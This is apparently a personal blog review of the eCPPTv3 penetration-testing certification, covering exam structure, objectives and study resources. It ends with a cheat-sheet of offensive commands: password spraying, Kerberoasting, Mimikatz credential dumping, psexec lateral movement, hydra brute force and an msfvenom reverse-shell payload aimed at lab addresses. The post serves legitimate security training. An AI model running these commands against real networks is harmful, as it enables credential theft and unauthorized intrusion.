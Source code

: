 ```yaml
---
title: Certified Professional Penetration Tester (eCPPTv3) - INE 
description: eCPPTv3 Certification
slug: INE
date: 2025-01-28
#image: cover.jpg
categories:
    - Certification
tags:
    - Certification
    - INE
    - PenetrationTester
#weight: 1       # You can add weight to some posts to override the default sorting (date descending)
comments: false
---
```


# Certified Professional Penetration Tester (eCPPTv3) - INE 

The **Certified Professional Penetration Tester (eCPPTv3)** by INE is a practical certification designed for professionals specializing in penetration testing and ethical hacking. This certification is ideal for those looking to deepen their skills in identifying and mitigating security vulnerabilities. 

The certification is priced at **400$** and includes a practical exam lasting **24 hours**, during which you are required to complete penetration testing activities and answer 45 questions based on your findings.

This review includes personal notes and an example of the methodologies applied during the exam.


{{<callout>}}
**Personal Notes on the Course Content**
In this section, I’ve included some of my notes to help guide others studying for the eCPPTv3 certification. 
These notes summarize key takeaways from each module, covering essential techniques, tools, and strategies for threat hunting within networks and endpoints.
- **eCPPT Notes** → [eCPPT Notes](https://robertodandrea.notion.site/eCPPT-Certification-a979ec3064e34ed6bb9690efd8ffd176?pvs=74)
{{</callout>}}

### **Exam Structure:**

The exam is divided into two main components:

1. **Lab Environment**:
    - You will be provided with a virtual environment containing various systems, including Linux and Windows hosts, such as Windows servers acting as Domain Controllers.
    - Your objective is to identify and exploit vulnerabilities within this environment to gain unauthorized access.
2. **Lab Questions**:
    - After compromising the environment, you will answer 45 questions related to your activities and findings during the penetration test.

The exam is to be completed within **24 hours**, and you are required to submit your answers to the questions within this timeframe. Unlike previous versions, there is no requirement to submit a detailed report of your activities and findings.

### **Exam Objectives:**

1. **Information Gathering & Reconnaissance (10%)**:
    - Perform host discovery and port scanning on target networks.
    - Enumerate information from services running on open ports.
2. **Initial Access (15%)**:
    - Perform username enumeration to identify valid user accounts on target systems.
    - Perform password spraying attacks to identify valid credentials for initial access.
    - Perform brute-force attacks on remote access services for initial access.
3. **Web Application Penetration Testing (15%)**:
    - Perform web application enumeration to identify potential vulnerabilities and misconfigurations.
    - Identify and exploit common web application vulnerabilities for initial access (e.g., SQL injection, cross-site scripting, command injection).
    - Perform brute-force attacks against login forms.
    - Exploit vulnerable and outdated web application components.
    - Exfiltrate data and credentials from compromised web applications and databases.
4. **Exploitation & Post-Exploitation (25%)**:
    - Identify and exploit vulnerabilities or misconfigurations in services.
    - Identify and exploit privilege escalation vulnerabilities.
    - Dump and crack password hashes.
    - Identify insecurely stored credentials.
5. **Exploit Development (5%)**:
    - Develop or modify exploit code for initial access and post-exploitation.
    - Identify and exploit memory corruption vulnerabilities (e.g., stack overflow, buffer overflow).
6. **Active Directory Penetration Testing (30%)**:
    - Perform information gathering on Active Directory.
    - Perform enumeration attacks on Active Directory.
    - Exploit Active Directory vulnerabilities.
    - Perform privilege escalation attacks in Active Directory.
    - Perform lateral movement attacks in Active Directory.
    - Perform persistence attacks in Active Directory.
    - Perform data exfiltration attacks in Active Directory.

### Personal Tips for Success
{{<callout>}}
This certification, in my experience, presents a medium-to-high difficulty level, especially if you are not familiar with Active Directory (AD). The exam focuses significantly on AD exploitation techniques, making it essential to have a solid understanding of AD environments.

To enhance your preparation, engaging with platforms like [**GOAD](https://github.com/Orange-Cyberdefense/GOAD) (Game of Active Directory)** can be highly beneficial. GOAD provides a vulnerable AD environment, ideal for practicing common attack techniques. Detailed documentation and guides on tackling GOAD challenges are available on Mayfly277's website.

Additionally, platforms such as **Hack The Box** offer practical labs that can be extremely useful. Specifically, the machines **SAUNA**, **ACTIVE**, and **TIMELAPSE** are designed to practice AD exploitation techniques. These labs allow you to refine your skills in a controlled and challenging environment.

Another valuable resource is the mind map provided by Orange Cyberdefense, which offers a clear overview of AD penetration testing techniques. 
This mind map will help you visualize the various phases and tools necessary to approach the exam successfully.

https://orange-cyberdefense.github.io/ocd-mindmaps/
{{</callout>}}

## Table of useful command
| --- | --- | --- |
| **`kerbrute`** | Enumerate brute force/password spray | `Enumeration`: *kerbrute userenum -d example.local --dc 192.168.1.10 users.txt* 
<br>`BruteForce`: *kerbrute bruteuser -d example.local --dc 192.168.1.10 administrator passwords.txt* 
<br>*users.txt* file with user list |

| **`crackmapexec`** | Enum hosts <br>Enum null sess <br>Enum anony access | `Get password Policy`: *cme <IP> -u ‘user’ -p ‘password” --pass-pol* <br>**DO IT BEFORE… THEN TUNE THE Pwd SPARY with policy obtained** <br>`Username but NO pwd:` *cme smb <dc_ip> -u user.txt - password.txt --no-bruteforce* <br>`Valid Credential:`<br> 
**Users**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --users*<br>
**Account**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --shares* 
<br>`Enumeration`: *crackmapexec smb <IP>*
<br>`Enumeration`: *crackmapexec smb <IP> -u “ p”* `Enumeration`: *crackmapexec smb <IP> -u ‘a’ -p”*
<br>`Lateral Movement`: *crackmapexec smb <IP> -u <user> -p <password> -d <domain>* |

| **`evil-winrm`** | Access to target machine | `Lateral Movement`: *evil-winrm -i 192.168.1.100 -u Administrator -p 'Password123'* |
| **`xfreerdp`** | Access to target machine | `Lateral Movement`: *xfreerdp /v:192.168.1.100 /u:Administrator /p:'Password123'* |
| **`smbclient`** | access to SMB/CIFS resource | `Lateral Movement`: [smbclient.py](http://smbclient.py) <domain>/<user>:<Password123>@<IP>
<br> *smbclient -L //<dc_ip>/* |
| **`Enter-PSSession`** | Start interactive session | *Enter-PSSession <domain> <br> Enter-PSSession seclogs.resesarch.security.local* |
| **`net`** | Useful for policy settings | *net accounts net user administrator* |
| **`runas`** | Access to victim | *runas.exe /user:administrator cmd* [runas.exe /user:administrator cmd](https://www.notion.so/runas-exe-user-administrator-cmd-1196583d22bc80a1a689d2576e37705d?pvs=21)  |
| **`PowerView`** | Enumeration AD - Powersploit suite | `AS-REP Roasting primary step`: <br>*Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }*
**[**Command:**](https://www.notion.so/Command-10c6583d22bc8002a34fe43b85bac6d6?pvs=21)** 
<br>`AD-Kerberoasting`: *Get-NetUser | Where-Object {$_.servicePrincipalName} | fl setspn -T research -Q */** **[**Command:**](https://www.notion.so/Command-10c6583d22bc80c694fdc162e0fccd8f?pvs=21)**  |
| **`winpeas`** | Identify misconfigurations, permissions, and vulnerabilities that could be exploited to gain elevated privileges | `Privilefge esclation:` *winpeas.exe* |
| **`msfvenom`** | Used to generate a reverse_tcp payload | *msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe
[**Command:**](https://www.notion.so/Command-f9a04aef68a348318f1741f6ac6dce2f?pvs=21)*  |
| **`msfconsole`** | Metasploit module | *msfconsole -q*
Meterpreter session: *exploit/windows/misc/hta_server* |
| **`Mimikatz`** | https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/ | **`hashdump`: *hashdump**
Return NTLM Hash of the user*
**`creds_all`: *creds:all**
Extract all possible hashes or credentials form Security Packages*
**`lsa_dump_secrets`:** ***lsa_dump_secrets**
Extract credential stored into Local Security Authority*
**`lsa_dump_sam`: *lsa_dump_sam**
Extract Security Account Manager and dumps credentials for local accounts* |
| **`psexec`** | Execute command on target machine | *psexec \\\\<target_ip> <cmd_command>*
OR
use for PTH |
| **`wmiexec`** | Used to run command on target machine | *python [wmiexec.py](http://wmiexec.py/) username:password@target_ip "whoami"*
 |
| **`fping`** | Ping ICMP machine to get alive | *fping -a -g 192.168.1.0/24* |
| **`GetNPUsers`** | Used to find hash | *python [GetNPUsers.py](http://GetNPUsers.py) <domain>/ -userfile <username.txt> -format hashcat -outputfile <hash_out.txt>

rebeus.exe asreproast /format:hashcat* |
| **`hashcat`** | Used to crack hash | *hashcat -m <algorithm> -a <type_of_attack> hash.txt*  |
| **`hydra`** | Brute force  | *hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.0.89 smb2*
 |
| **`wpscan`** | Wordpress vuln | [## detect plugins vulnerable
wpscan --url https://kihvhc2nhb0uocklpg88obt.eu-central-1.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive](https://www.notion.so/detect-plugins-vulnerable-wpscan-url-https-kihvhc2nhb0uocklpg88obt-eu-central-1-attackdefenseclo-df7a015647dc4ee3a18cbb6ec2a6fcf3?pvs=21)  |
| **`nmap`** | port scanning | *nmap -sC -sV -Pn -p- -oA output.txt <IP_addr> -vv* |

![eCPPT_DANDREA](eCPPT_DANDREA.png)

### Conclusion

The **eCPPTv3 certification** offers cybersecurity professionals a valuable opportunity to deepen their expertise in penetration testing, particularly focusing on Active Directory environments. By engaging with hands-on labs and utilizing resources like **GOAD** and **Hack The Box**, candidates can develop practical skills essential for real-world security assessments. The exam's emphasis on Active Directory exploitation reflects current security needs, highlighting the importance of mastering techniques to identify and mitigate risks associated with identity and access management within organizations.

Incorporating these resources into your preparation can enhance your understanding and proficiency in penetration testing, thereby increasing your chances of success in the eCPPTv3 exam.